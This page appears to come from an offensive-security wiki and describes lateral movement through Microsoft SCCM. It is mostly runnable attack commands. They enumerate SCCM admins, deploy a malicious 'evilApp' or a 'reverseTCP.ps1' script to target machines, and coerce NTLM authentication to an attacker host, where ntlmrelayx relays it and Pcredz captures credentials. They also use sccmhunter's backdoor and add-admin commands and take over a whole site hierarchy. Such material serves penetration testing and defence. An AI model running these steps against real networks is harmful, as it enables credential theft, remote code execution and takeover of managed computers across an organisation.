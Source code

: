 # Lateral Movement

## Theory

Since the main goal of SCCM is to deploy applications and services on the managed assets of the Active Directory, it is also a pretty good candidate to move latteraly on the network. With administrative rights on the primary site server, this can be done by deploying applications and scripts on the targets or coercing clients' authentication.

Additionnaly, SCCM permits to enumerate many data on the ressources. Among all the services offered by SCCM to the administrator, there is one named **CMPivot**. This service, located on the MP server, can enumerate all the resources of a computer or computer collection (installed software, local administrators, hardware specification, etc.), and perform administrative tasks on them. It uses a HTTP REST API, named **AdminService**, provided by the SMS Provider server.

Finally, in really big environments that host multiple SCCM sites (think about a big company, with one SCCM site per continent), it is possible to encounter a **Central Administration Site (CAS)**. This type of site allows to manage all the primary sites from one point, make some reporting, and is totally optional. As indicated by [Chris Thompson](https://mobile.twitter.com/\_mayyhem) in his article [SCCM Hierarchy Takeover](https://posts.specterops.io/sccm-hierarchy-takeover-41929c61e087), by default, when a new user is promoted to any SCCM administrative role on a primary site server (for example, `Full Administrator`), **the role is automatically propagated to the other SCCM site in the hierarchy by the CAS**.

This means that there is no security boundary between SCCM sites in a same hierarchy, and being able to takeover one SCCM site implicates to takeover all the others.

## Practice

### Admin & Special Account Enumeration

This step requires administrative privileges over the SCCM Management Point (MP) in order to query the MP's WMI database.

{% tabs %}
{% tab title="Windows" %}
**Admin Users**

```powershell
PS:> .\SharpSCCM.exe get class-instances SMS_ADMIN
```

**Special Accounts**

```powershell
PS:> .\SharpSCCM.exe get class-instances SMS_SCI_Reserved
```

<div>

<figure><img src="../../../.gitbook/assets/SCCM_Lateral_Movement_User_Enum.png" alt=""><figcaption><p>Admin user enumeration in SCCM</p></figcaption></figure>

 <figure><img src="../../../.gitbook/assets/SCCM_Lateral_Movement_Special_Account_Enum.png" alt=""><figcaption><p>Special Account Enumeration in SCCM</p></figcaption></figure>

</div>
{% endtab %}
{% endtabs %}

### Applications and scripts deployment

{% tabs %}
{% tab title="SharpSCCM" %}
References:

* [https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867](https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867)

**Step 1: Confirm Access permissions**

```powershell
PS:> .\SharpSCCM.exe get class-instances SMS_Admin -p CategoryNames -p CollectionNames -p LogonName -p RoleNames
```

**Step 2: Find target device**

```powershell
## Search for device of user "Frank.Zapper"
PS:> .\SharpSCCM.exe get primary-users -u Frank.Zapper

## List all active SCCM devices where the SCCM client is installed 
### CAUTION: This could be huge
PS:> .\SharpSCCM.exe get devices -w "Active=1 and Client=1"
```

**Step 3: Deploy Application to target device**

In this final step you can chose to either create an actual application to deploy to the target machine or just trigger an install from a remote UNC path in order to capture and relay an incoming NTLM authentication. Note the following:

* Coercing an authentication might be stealthier (and requires less cleanup) than installing an application
* To capture and relay NTLM credentials, the target device must support NTLM (very likely).
* The neat part: The Authentication can be coerced using the primary user account of the device OR the device computer account (you can choose)

```bash
## Prep capturing server
## ntlmrelayx targeting 10.250.2.179
$:> sudo python3 ntlmrelayx.py -smb2support -socks -ts -ip 10.250.2.100 -t 10.250.2.179
## Also keep Pcredz running, just in case
$:> sudo python3 ./Pcredz -i enp0s8 -t


## Run attack
PS:>.\SharpSCCM.exe exec -rid <TargetResourceID> -r <AttackerHost>
```

Note that the incoming authentication requsts might take a while (couple minutes) to roll in...

<div>

<figure><img src="../../../.gitbook/assets/SCCM_Lateral_Movement_Execution_Step3_Trigger_Deployment (1).png" alt=""><figcaption></figcaption></figure>

 <figure><img src="../../../.gitbook/assets/SCCM_Lateral_Movement_Execution_Step3_Capture_Authentication.png" alt=""><figcaption></figcaption></figure>

</div>
{% endtab %}

{% tab title="PowerSCCM" %}
With sufficient rights on the central SCCM server (sufficient rights on WMI), it is possible to deploy applications or scripts on the Active Directory machines with [PowerSCCM](https://github.com/PowerShellMafia/PowerSCCM) (Powershell).

<pre class="language-powershell"><code class="lang-powershell"><strong># Create a SCCM Session via WMI with the Site Code
</strong>Find-SccmSiteCode -ComputerName SCCMServer
New-SccmSession -ComputerName SCCMServer -SiteCode <site_code> -ConnectionType WMI

# Retrieve the computers linked to the SCCM server
Get-SccmSession | Get-SccmComputer

# Create a computer collection
Get-SccmSession | New-SccmCollection -CollectionName "collection" -CollectionType "Device"

# Add computers to the collection
Get-SccmSession | Add-SccmDeviceToCollection -ComputerNameToAdd "target" -CollectionName "collection"

# Create an application to deploy
Get-SccmSession | New-SccmApplication -ApplicationName "evilApp" -PowerShellB64 "<powershell_script_in_Base64>"

# Create an application deployment with the application and the collection previously created
Get-SccmSession | New-SccmApplicationDeployment -ApplicationName "evilApp" -AssignmentName "assig" -CollectionName "collection"

# Force the machine in the collection to check the application update (and force the install)
Get-SccmSession | Invoke-SCCMDeviceCheckin -CollectionName "collection"
</code></pre>

If deploying applications fails, deploying CMScripts is an alternative, which requires a "Configuration Manager" drive on the SCCM server.

This [pull request](https://github.com/PowerShellMafia/PowerSCCM/pull/6) on PowerSCCM can be used to do everything in one command. It uses the script `configurationmanager.psd1` created by Microsoft, usually installed on SCCM servers.

```powershell
# Create a CM drive if it doesn't already exist and deploy a CMScript on a target
New-CMScriptDeployement -CMDrive 'E' -ServerFQDN 'sccm.domain.local' -TargetDevice 'target' -Path '.\reverseTCP.ps1' -ScriptName 'evilScript'
```
{% endtab %}
{% endtabs %}

### AdminService API

It appears that, with SCCM administrative rights, it is possible to directly interact with the **AdminService** API, without using CMPivot, for post SCCM exploitation purpose.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [sccmhunter](https://github.com/garrettfoster13/sccmhunter) (Python) can be used for this purpose.

```bash
python3 sccmhunter.py admin -u "LAB\USER" -p PASSWORD -ip <site_server_IP>
```

Then, the `help` command can be typed in the opened shell to view all the CMPivot commands handled by [sccmhunter](https://github.com/garrettfoster13/sccmhunter).

```bash
() C:\ >> help

Documented commands (use 'help -v' for verbose/'help <topic>' for details):

Database Commands
=================
get_collection  get_device  get_lastlogon  get_puser  get_user

Interface Commands
==================
exit  interact

PostEx Commands
===============
add_admin  backdoor  backup  delete_admin  restore  script

Situational Awareness Commands
==============================
administrators  console_users  ipconfig   osinfo    sessions
cat             disk           list_disk  ps        shares  
cd              environment    ls         services  software
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) can be used for this purpose.

**Step 1: retrieve the ID of the resource to enumerate (a computer or a computer collection)**

```powershell
.\SharpSCCM.exe get resource-id -d "COMPUTER"
```

**Step 2: execute administrative tasks with CMPivot requests**

```powershell
#Enumerate the local administrators
.\SharpSCCM.exe invoke admin-service -r <resource_ID> -q "Administrators" -j

#Enumerate the installed softwares
.\SharpSCCM.exe invoke admin-service -r <resource_ID> -q "InstalledSoftware" -j
```

Instructions about how to write CMPivot queries are presented [here](https://learn.microsoft.com/fr-fr/mem/configmgr/core/servers/manage/cmpivot).
{% endtab %}
{% endtabs %}

### SCCM Hierarchy takeover

There is nothing to do. Just promote a user to any SCCM administrative role on a primary site server (for example, `Full Administrator`), and **the role will be automatically propagated to the other SCCM site in the hierarchy by the CAS**.

## Resources

{% embed url="https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/" %}

{% embed url="https://enigma0x3.net/2016/02/" %}

{% embed url="https://posts.specterops.io/sccm-hierarchy-takeover-41929c61e087" %}